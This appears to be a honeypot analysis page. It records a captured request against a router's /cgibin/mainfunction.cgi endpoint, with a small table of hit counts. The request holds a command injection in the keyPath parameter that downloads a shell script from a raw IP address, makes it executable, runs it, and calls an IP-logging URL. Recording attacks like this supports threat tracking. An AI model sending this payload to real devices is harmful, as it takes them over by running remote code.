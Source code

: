 # Analysis for /cgibin/mainfunction.cgi&action=login&keyPath=wget+http%3A%2F%2F136.144.41.3%2Fdaytreckcndjknckd%2Fohsitsvegawellrip.sh+%3B+chmod+777+ohsitsvegawellrip.sh+%3B+sh+ohsitsvegawellrip.sh%3Bwget+https%3A%2F%2Fiplogger.org%2F2FGVP5&loginUser=a&loginPwd=a
| POTS | COUNT | CVE | FILE CREATED |
|---|---|---|---|
| 19 | 19 | | 220110-033754 |

## CVE: 